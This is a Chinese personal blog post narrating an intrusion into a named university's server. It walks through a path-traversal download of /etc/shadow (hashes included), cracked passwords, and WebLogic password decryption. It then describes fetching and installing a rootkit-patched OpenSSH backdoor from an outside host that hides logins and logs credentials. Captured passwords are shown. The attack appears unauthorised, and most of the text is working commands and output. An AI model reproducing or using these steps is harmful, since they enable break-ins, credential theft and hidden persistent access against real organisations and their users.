  ---
layout: post
title: "从任意文件下载到系统 root 权限"
description: "Hacking"
headline: 
modified: 2015-10-21
category: Hacking
tags: [Hacking]
imagefeature: 
mathjax: 
chart: 
author: Ricter
comments: true
featured: true
---

# [从任意文件下载到系统 root 权限]()

        
            Posted at 2015-10-21
        
        

其实蛮没有技术含量。我在两年前遇到这个任意文件下载，却不知道该怎么做，到现在渗透经验足了，拿下了，然后记录一下这一个过程，就这样qwq。

## 0x01

目标站是学校内的一个某系统，存在一个 root 权限的任意文件下载漏洞。年轻的时候我用 AWVS 扫到，很开心。但是我只知道下载 `/etc/passwd` 和 `/etc/shadow`，然后去 cmd5 破解了个密码。

     owo &gt; ~ curl "http://xxxxx.cqupt.edu.cn/index.do?method=download&amp;fileName=../../../../../../../../../../../../../../../../../../etc/shadow" | grep "\$1"
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100  1450    0  1450    0     0   167k      0 --:--:-- --:--:-- --:--:--  177k
    root:$1$skHsra.H$231VnTWRAH5IZu/ZprShG1:15355:0:99999:7:::
    noc:$1$VfzOW6qf$5bFZHbF9kffKjWNNRRS.t1:15050:0:99999:7:::
    upload:$1$6l1DPvdr$9n35rMlJ.Y0K9T7LTTt4e.:15869:0:99999:7:::
    save:$1$MtVRP4E2$VR2c3KpZzxMXyrtbx5PKC1:15041:0:99999:7:::
    cisco:$1$imx62ClO$JoeFAGinKdzZFMZ1qmam20:15050:0:99999:7:::
    log:$1$G0ukagUJ$WGon1ynxgRMKxY1mY6HUa.:15105:0:99999:7:::
    `

    得到了 log 的密码是 log，save 的密码是 save。但是，可以破解密码都不能登录。

    ` owo &gt; ~ curl "http://xxxxx.cqupt.edu.cn/index.do?method=download&amp;fileName=../../../../../../../../../../../../../../../../../../etc/passwd" | grep bash
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100  2061    0  2061    0     0   228k      0 --:--:-- --:--:-- --:--:--  251k
    root:x:0:0:root:/root:/bin/bash
    weblogic:x:501:501::/home/weblogic:/bin/bash
    cisco:x:504:504::/home/cisco:/bin/bash
    `

    当时只到这里，啊，不知道怎么做了，GG，该干嘛干嘛。还是太年轻qwq。

    其实还有很多东西可以下载，比如 `/root/.bash_history`，看了一遍，拿到了 Web 目录：`/home/web/jsp/bea/user_projects/domains/xxx`。

    这个站其实是 weblogic 搭建的，比较蛋碎的是，我又不知道 weblogic 的密码，也不知道存放密码的路径。 

    #### 题外话

    其实如果经验足够的话，应该可以知道密钥和密码文件存放的路径。

    密钥路径：/home/web/jsp/bea/user_projects/domains/DOMAIN_NAME/security/SerializedSystemIni.dat 

    密码文件路径：/home/web/jsp/bea/user_projects/domains/DOMAIN_NAME/servers/APP_NAME/security/boot.properties

    其中大部分信息都在 .bash_history 得到了，不过我还是不知道在哪，真是残念。

    #### 题外话结束

    但是我机智的用 nmap 扫了下端口，发现 FTP 是 vsftpd。vsftpd 这么 6666，没做 chroot 的情况下可以各种看目录，而且用系统帐号就能登陆上。虽然是 `/sbin/nologin/`，但是 vsftp 还是能用的。上去之后翻了下目录，找到了加密后的密码还有加密密码的密钥。

    ![](http://7d9lm5.com1.z0.glb.clouddn.com/from-arbitrarily-file-download-to-root/4.PNG) 

    ## 0x02

    根据 [http://drops.wooyun.org/tips/349](http://drops.wooyun.org/tips/349)，可以造怎么去破解密码。里面给出的密码破解的 java 脚本依赖 weblogic 的包，我并不想在本地安装 weblogic，于是去万能的 Github 找了下，找到这个程序：[https://github.com/NetSPI/WebLogicPasswordDecryptor](https://github.com/NetSPI/WebLogicPasswordDecryptor)

    用法如下： 

    ` owo &gt; git clone https://github.com/NetSPI/WebLogicPasswordDecryptor
    Cloning into 'WebLogicPasswordDecryptor'...
    remote: Counting objects: 31, done.
    remote: Total 31 (delta 0), reused 0 (delta 0), pack-reused 31
    Unpacking objects: 100% (31/31), done.
    Checking connectivity... done.
     owo &gt; tmp cd WebLogicPasswordDecryptor/
     owo &gt; WebLogicPasswordDecryptor git:(master) javac WebLogicPasswordDecryptor.java
    WebLogicPasswordDecryptor.java:2: 警告: BASE64Decoder是内部专用 API, 可能会在未来发行版中删除
    import sun.misc.BASE64Decoder;
                   ^
    WebLogicPasswordDecryptor.java:41: 警告: BASE64Decoder是内部专用 API, 可能会在未来发行版中删除
            byte[] encryptedPassword1 = new BASE64Decoder().decodeBuffer(ciphertext);
                                            ^
    WebLogicPasswordDecryptor.java:95: 警告: BASE64Decoder是内部专用 API, 可能会在未来发行版中删除
            byte[] encryptedPassword1 = new BASE64Decoder().decodeBuffer(ciphertext);
                                            ^
    3 个警告
     pwq &gt; WebLogicPasswordDecryptor git:(master) ? java WebLogicPasswordDecryptor /tmp/SerializedSystemIni.dat "{3DES}0/rNaowFnaz32NHhiOKRmg=="
    DCaW2uXXX
     owo &gt; WebLogicPasswordDecryptor git:(master) ?
    `

    话说如果编译的时候发现缺少什么依赖包，可以去万能的 Google 搞定，我就不提了。 

    既然密码破解出来了，那就去 getshell 吧。

    ![](http://7d9lm5.com1.z0.glb.clouddn.com/from-arbitrarily-file-download-to-root/2.PNG)

    ![](http://7d9lm5.com1.z0.glb.clouddn.com/from-arbitrarily-file-download-to-root/1.PNG)

    ## 0x03

    拿到之后，并不知道密码，心里很纠结。

    因为这里的 cisco 账号也在某 mail.cqupt.edu.cn 中出现了，所以，我感觉还是要上一个比较牛逼的 backdoor。 

    问了我猫总之后，猫总推荐了我一个 openssh 的 backdoor。地址在这：[http://core.ipsecs.com/rootkit/patch-to-hack/0x06-openssh-5.9p1.patch.tar.gz](http://core.ipsecs.com/rootkit/patch-to-hack/0x06-openssh-5.9p1.patch.tar.gz) 

    首先 wget 下来，然后看一下 README 和 INSTALL。

    `[root@xxx openssh-5.9p1.patch]# ls
    INSTALL  LICENSE  openssh-5.9p1  openssh-5.9p1.tar.gz  README  sshbd5.9p1.diff  ssh_integrity_checker.sh
    [root@oa openssh-5.9p1.patch]# cat README
    Read LICENSE before redistributing
    Read INSTALL to install backdoor
    ssh_integrity_checker is tool for sysadmin to check possible OpenSSH infection

    FEATURES:
    - Isn't logged in lastlog, wtmp, utmp
    - Your IP isn't logged in /var/log/message and /var/log/secure (RHEL/CentOS)
    - Your IP isn't logged in /var/log/syslog and /var/log/auth.log (Ubuntu/Debian)
    - Record incoming/outgoing user and password for SSH login
    - Instant root access and bypass PermitRootLogin on sshd_config
    - Also support for SSH with pam enabled
    [root@oa openssh-5.9p1.patch]# cat INSTALL

    -- QUICKSTART

    wget http://mirror.corbina.net/pub/OpenBSD/OpenSSH/portable/openssh-5.9p1.tar.gz
    tar zxvf openssh-5.9p1.tar.gz
    cp sshbd5.5p1.diff openssh-5.9p1/
    cd openssh-5.9p1
    patch &lt; sshbd5.9p1.diff

    modify version.h
    modify secret password and log path on includes.h
    make sure you already install zlib, openssl, kerberos5, and libpam development header file

    ./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam --with-kerberos5
    make &amp;&amp; make install &amp;&amp; service ssh restart (debian/ubuntu)
    make &amp;&amp; make install &amp;&amp; service sshd restart (redhat/centos)
    [root@xxx openssh-5.9p1.patch]#
    `

    根据提示要安装一下 zlib-devel、openssl-devel、pam-devel、krb5-lib 之类的包。

    接着下载 openssh-5.9p1 的源代码，patch 掉，然后修改 `includes.h`，在 `includes.h` 的最下面。

    ![](http://7d9lm5.com1.z0.glb.clouddn.com/from-arbitrarily-file-download-to-root/3.PNG) 

    接着 `./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam --with-kerberos5`，然后 `make &amp;&amp; make install`。 

    重启 sshd 服务后，可以记录账号密码了。ssh 进来的在 `/tmp/ilog`，ssh 出去的在 `/tmp/olog`。

    `[root@xxx tmp]# cat ilog
    user:password --&gt; log:log
    user:password --&gt; log:log
    user:password --&gt; log:log
    [root@oa tmp]# cat olog
    user:password@host --&gt; root:asd@localhost
    [root@xxx tmp]#

接下来就是慢慢的等待了。

        
        

        
        
            
        
    
